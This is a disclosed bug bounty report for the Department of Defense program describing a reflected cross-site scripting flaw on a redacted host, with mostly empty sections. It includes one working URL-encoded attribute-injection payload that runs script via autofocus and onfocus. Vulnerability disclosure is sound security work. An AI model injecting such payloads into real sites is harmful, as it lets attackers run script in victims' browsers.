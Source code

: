# XSS on https://███████/██████████ parameter

## Report Details
- **Report ID**: 1252229
- **URL**: https://hackerone.com/reports/1252229
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-06T06:57:41.650Z
- **Disclosed**: 2022-04-07T19:57:11.632Z

## Reporter
- **Username**: homosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
PoC
```
https://███████/███
```
Pameter 'xxslots' must be invalid
Payload ```xss%22%20tabindex%3d1%20autofocus%20onfocus%3d%22alert()```
███████

## Impact

XSS on https://███████/

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Go to ```XSS on https://██████/██████████```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
